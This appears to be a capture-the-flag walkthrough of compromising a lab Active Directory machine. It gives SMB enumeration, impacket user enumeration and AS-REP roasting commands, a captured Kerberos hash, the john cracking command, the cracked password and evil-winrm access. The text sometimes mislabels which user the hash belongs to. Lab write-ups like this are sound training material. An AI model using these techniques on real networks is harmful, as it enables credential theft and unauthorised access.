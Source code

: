 We can connect to the `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous`  shares

`smbclient \\\\10.10.189.145\\share_name`

We grab 6 txt files and can enum user names? from them
```
Johnny Leet
Tony Skid
Jack Goldenhand
Alexa Whitehat
```


we can use impacket's `lookupsid.py` to enumerate users
`python3 lookupsid.py guest@10.10.127.164`

This gives us a list of user names
```
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

---

### checking for asrep roasting

Now that we have user names, we throw them into a users.txt file and check to see if they are vulnerable to asrep roasting

`python3 /tmp/impacket/examples/GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -dc-ip 10.10.127.164 -request -no-pass`

This returns a TGT ticket for a-whitehate
`$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:667424d94b7a72983e3e793ec301e7e3$be00d5d0cb8f633d9ee19f00d7dd51cc94e891b27f1da985d0a683fee25617c465327be3ee865cbed48857903b23a0ac1e3ee2c2c2cca5e89f8995baf11bf2cbf0ddf37306261e20e7b75695945f4ae5fde75613473be2dd5085dc981c4643be869eea513fc622821d682ac0ce92d5ab7c89284a1886ba9378429ea71d7481ccd13c3271762ada8fc23111e0810225d3d0bf542ddf796825c5d7d795540c553911bd783b9d5a17a954c7511168753b329ab9d60a75bdc4a549091843c84025ee7633116ed7387f0a32fe9f0257bd5e41e667dd342ebc8af377273b83f40d71b02b7f0f75e0ea3b8e0a26599e35bb8940dbf1b7dd3a26`

We can then crack this by throwing it into `crack.txt` and running john
`john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt`

This gives us the password `tj072889*`

now that we have creds, we can try to access SYSLOG and NETLOGON smb shares with t-skid's creds

`smbclient \\\\10.10.127.164\\SYSLOG -U t-skid`

This gives us a bunch of files, namely `resetpassword.vbs`
which contain's a-whitehat's creds

We can user `evil-winrm` with a-whitehat's creds to grab the user.txt in `c:\users\enterprise-core-vn\desktop`

